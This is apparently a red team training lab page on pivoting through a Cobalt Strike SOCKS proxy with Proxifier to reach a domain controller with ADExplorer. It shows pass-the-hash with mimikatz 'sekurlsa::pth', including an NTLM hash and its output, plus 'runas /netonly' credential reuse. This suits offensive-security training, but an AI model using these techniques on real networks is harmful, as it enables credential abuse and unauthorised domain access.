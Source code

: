 We can tunnel GUI apps that run on Windows using a proxy client such as [Proxifier](https://www.proxifier.com/).

Open **Proxifier**, go to **Profile > Proxy Servers** and **Add** a new proxy entry, which will point at the IP address and Port of your Cobalt Strike SOCKS proxy.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/socks/proxy-servers.png)

  

Next, go to **Profile > Proxification Rules**. This is where you can add rules that tell Proxifier when and where to proxy specific applications. Multiple applications can be added to the same rule, but in this example, I'm creating a single rule for **adexplorer64.exe** (part of the Sysinternals Suite). When this application tries to connect to a target host within the **10.10.17.0/24** subnet (**dev.cyberbotic.io**), it will be automatically proxied through the Cobalt Strike proxy server defined above.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/socks/proxy-rule.png)

  

Now launch ADExplorer and connect to **10.10.17.71** (DC-2).

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/socks/ad-connect.png)

  

You will then see the traffic being proxied in Proxifier, and ADExplorer connects successfully.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/socks/adexplorer.png)

  

Some applications (such as the RSAT tools) don't provide a means of providing a username or password, because they're designed to use a user's domain context. You can still run these tools on your attacking machine. If you have the clear text credentials, use `runas /netonly`.

```
C:\>runas /netonly /user:DEV\nlamb "C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
Enter the password for DEV\nlamb:
Attempting to start C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc as user "DEV\nlamb" ...
```

  

If you have an NTLM hash, use `sekurlsa::pth`.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:nlamb /domain:dev.cyberbotic.io /ntlm:2e8a408a8aec852ef2e458b938b8c071 /run:"C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
user    : nlamb
domain  : dev.cyberbotic.io
program : C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc
impers. : no
NTLM    : 2e8a408a8aec852ef2e458b938b8c071
  |  PID  13608
  |  TID  23228
  |  LSA Process is now R/W
  |  LUID 0 ; 3731125840 (00000000:de647650)
  \_ msv1_0   - data copy @ 000002B378344C10 : OK !
  \_ kerberos - data copy @ 000002B37859B388
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000002B378209E28 (32) -> null
```

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/socks/aduc.png)

  

  > You will also need to add a static host entry in your `C:\Windows\System32\drivers\etc\hosts` file: `10.10.17.71 dev.cyberbotic.io`. You can enable DNS lookups through Proxifier, but that will cause DNS leaks from your computer into the target environment.